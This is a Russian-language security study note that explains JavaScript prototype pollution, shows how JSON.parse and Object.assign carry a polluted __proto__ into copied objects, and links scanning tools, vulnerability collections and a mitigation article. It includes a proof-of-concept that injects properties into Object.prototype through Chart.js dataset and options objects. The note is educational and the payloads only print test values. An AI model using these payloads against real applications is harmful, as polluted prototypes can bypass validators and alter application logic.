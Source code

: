 # Prototype Pollution Attack

По другому еще Prototype Poisoning называют

## Prototype in a nutshell

Что такое proto — кто-то решил, что здорово будет иметь специальное поле для описания полей и методов объекта. Сейчас это значится как deprecated, но до сих пор полностью поддерживается. Как это работает:

```javascript
> const a = { b: 5 }
> a.b
5
> a.__proto__ = { c: 6 }
> a.c
6
> a
{ b: 5 }
```

Как мы видим, объект `a` не имеет свойство `c`, но его prototype имеет. Если валидатор проверяет только свойства объекта `a`, то можно обойти этот валидатор.

Другой важной частью этой истории является то, как `JSON.parse()` — утилита, предоставляемая языком для преобразования текста в формате JSON в объекты  — обрабатывает это волшебное имя свойства `__proto__`.

```javascript
> const text = '{ "b": 5, "__proto__": { "c": 6 } }'
> const a = JSON.parse(text)
> a
{ b: 5, __proto__: { c: 6 } }
```

В данном случае, поле `__proto__` не ссылка на prototype, а такое же поле как и `b`. Сам по себе объект созданный с помощью `JSON.parse` совершенно безопасен. У него нет собственного прототипа. У него есть, казалось бы, безобидное свойство, которое просто совпадает со встроенным магическим именем JavaScript.

Однако другие методы могут обработать это неожиданным способом:

```javascript
> const x = Object.assign({}, a)
> x
{ b: 5}
> x.c
6
```

Метод `Object.assign` используется для создания копии объекта, помещая все свойства объекта `a` в объект `{}`. И прототип улетает в `x`!

## Tools

Какой-то инструмент: [https://github.com/msrkp/PPScan/](https://github.com/msrkp/PPScan/)

## Статьи

Сборник вулнов: [https://github.com/BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution)

Пример и mitigation для этой атаки: [https://www.whitesourcesoftware.com/resources/blog/prototype-pollution-vulnerabilities/](https://www.whitesourcesoftware.com/resources/blog/prototype-pollution-vulnerabilities/)

## Пример

пусть есть js-файл

Пример внедрение в `__proto__` своего кода

```markup
<canvas id="canvas"></canvas>
<script src="node_modules/chart.js/dist/Chart.bundle.js"></script>
<script>
    var ctx = document.getElementById('canvas').getContext('2d');
    var chart = new Chart(ctx, {
        type: 'line',
        data: {
            labels: ['January', 'February', 'March', 'April', 'May'],
            datasets: [{
                label: 'My First dataset',
                backgroundColor: 'rgb(255, 99, 132)',
                borderColor: 'rgb(255, 99, 132)',
                data: [0, 10, 5, 2, 20]
            },
            JSON.parse(`{"__proto__": {"abc": "Injected value through dataset"}}`)
            ]
        },
        options: JSON.parse(`{"__proto__": {"def": "Injected value through options"}}`)
    });
    console.log({}.abc); // Print "Injected value through dataset"
    console.log({}.def); // Print "Injected value through options"
</script>
```

А все из-за того, что где-то в коде есть такой код (или подобный)

```javascript
if (isObject(tval) && isObject(sval)) {
    // eslint-disable-next-line no-use-before-define
    merge(tval, sval, options);
}
```

Ike Murami, \[3 дек. 2020 г., 14:40:07]: Мне сейчас рассказали, что это только логика, потому как функцию не сможешь замерджить через proto (так как нет способа десер через js сделать и отправить функцию как таковую)

соотв трудность in the wild: найти чейн, в котором замердженные объекты обрабатываются и влияют нужным образом на логику

\*на клиенте
